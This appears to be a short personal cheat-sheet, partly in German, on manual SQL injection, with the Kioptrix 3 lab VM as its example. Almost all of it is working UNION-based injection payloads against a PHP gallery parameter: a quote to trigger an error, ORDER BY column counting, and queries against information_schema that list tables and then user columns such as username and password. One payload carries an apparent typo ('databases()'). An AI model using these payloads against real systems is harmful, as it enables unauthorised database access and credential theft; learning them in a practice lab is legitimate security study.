 # How to manually do sqlinjection

## Following steps to exploit sql   (example from kioptrix3)


everywhere where id in request try to append '
id = 1'
-->sql error

find out number of columns 

http://example.com/gallery/gallery.php?id=1 order by **1**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **2**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **3**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **4**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **5**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **6**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **7**-- --> ERROR

----> N-1 --> 7 -1 = 6 Columns


Finding Accessible Columns
http://example.com/gallery/gallery.php?id=-1 union all select **1,2,3,4,5,6**--
2
3


zahl 2 und 3 --> Vulnerable Stelle 2 und 3 --> group concat an 2 oder 3. stelle

http://kioptrix.com/gallery/gallery.php?id=-1 union select 1,2,databases(),4,5,6--



http://example.com/gallery/gallery.php?id=-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()--

dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users

http://example.com/gallery/gallery.php?id=-1%20union%20select%201,2,group_concat(table_name),4,5,6%20from%20information_schema.tables%20where%20table_schema=database()--




http://example.com/gallery/gallery.php?id=-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--

id,username,password

```

tags: #wget #ftp #linux 

